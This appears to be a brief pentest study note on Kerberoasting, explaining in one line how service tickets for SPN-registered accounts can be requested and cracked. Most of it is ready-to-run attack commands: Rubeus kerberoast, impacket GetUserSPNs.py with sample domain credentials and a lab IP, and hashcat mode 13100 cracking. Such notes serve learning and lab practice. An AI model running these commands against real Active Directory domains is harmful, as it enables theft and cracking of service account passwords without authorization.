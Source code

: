 Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crakc the service password.

With Rubeus:
```powershell
Rubeus.exe kerberoast
```
```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```
With impacket
```bash
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.133.178 -request
```
cracking with hashcat
